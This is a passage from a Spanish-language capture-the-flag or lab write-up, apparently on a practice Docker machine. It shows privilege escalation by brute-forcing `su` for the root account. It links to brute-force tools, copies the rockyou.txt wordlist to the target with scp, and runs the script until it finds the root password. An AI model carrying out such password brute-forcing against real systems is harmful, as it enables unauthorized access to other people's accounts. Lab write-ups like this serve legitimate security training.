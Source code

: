 Podemos usar una herramienta de fuerza bruta para `su` como:

- Nuestra propia herramienta en bash:  
  https://github.com/lavafuego/herramientas/tree/main/fuerza%20bruta%20user%20script%20bash

- Otra alternativa:  
  https://github.com/d4t4s3c/suForce

En nuestro caso he usado mi propia herramienta en bash el primer enlace que es copiar y pegar y no necesita pasarse por scp ni nada. Creamos el script con `nano` en la máquina víctima, lo pegamos y luego:

```bash
chmod +x script.sh
```

---

## Transferencia del diccionario

Pasamos `rockyou.txt` a la máquina víctima:

```bash
scp /usr/share/wordlists/rockyou.txt balutin@172.17.0.2:/tmp
```

Introducimos la contraseña del usuario `balutin` cuando nos la pida.

---

## Ejecución del script

Nos posicionamos en `/tmp` y ejecutamos:

```bash
cd /tmp
./script.sh -u root -w rockyou.txt
```

Salida:

```
[#--------------------------------------------------]   0%
¡Contraseña encontrada!: rockyou
Terminated
```

---

## Escalada a root

Nos logueamos como root:

```bash
su root
```

Contraseña:

```
rockyou
```

💥 ¡Acceso root conseguido!

```
root@28a4c6e82f24:/tmp# whoami
root
```

---

✅ Escalada completada con éxito.
